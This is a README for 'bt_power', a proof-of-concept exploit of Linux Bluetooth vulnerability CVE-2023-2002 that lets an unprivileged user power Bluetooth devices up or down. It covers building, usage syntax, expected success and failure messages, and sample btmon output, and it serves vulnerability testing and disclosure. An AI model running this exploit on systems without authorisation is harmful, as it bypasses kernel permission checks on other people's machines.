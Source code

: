 # bt_power

Set the power status of Bluetooth devices as an unprivileged user. This is a
PoC exploit of CVE-2023-2002.

## Build

Simply run `make` in the same directory as `bt_power.c`,

## Usage

If no arguments are passed, the usage message will be displayed:
```
$ ./bt_power
Usage: ./bt_power POWER_STATUS DEVICE_INDEX
	POWER_STATUS := { up | down }
	DEVICE_INDEX := { 0 | 1 | ... }
```

## Examples

```
./bt_power up 0
```
This attempts to power up the 0th Bluetooth device. If the kernel is
vulnerable to CVE-2023-2002, `bt_power` can be executed by an unprivileged
user and it will succeed with a `Success!` message. Otherwise, if the kernel
is not vulnerable and `bt_power` is executed by an unprivileged user, it
should fail with a `Failed. Reason: MGMT_STATUS_PERMISSION_DENIED` message.

It is helpful to run `btmon` in another terminal, which monitors the
management commands sent and the events received, so that one can clearly see
what is happening:
```
$ sudo btmon
Bluetooth monitor ver 5.66
= Note: Linux version 6.2.10-arch1-1 (x86_64)
= Note: Bluetooth subsystem version 2.22
= New Index: XX:XX:XX:XX:XX:XX (Primary,USB,hci0)
@ RAW Open: sudo (privileged) version 2.22
@ RAW Close: sudo
@ MGMT Open: sudo (privileged) version 1.22
@ MGMT Command: Set Powered (0x0005) plen 1
        Powered: Enabled (0x01)
= Open Index: XX:XX:XX:XX:XX:XX
...
... omitted HCI commands and events
...
@ MGMT Event: Command Complete (0x0001) plen 7
      Set Powered (0x0005) plen 4
        Status: Success (0x00)
        Current settings: 0x00000081
          Powered
          BR/EDR
@ MGMT Close: sudo
```
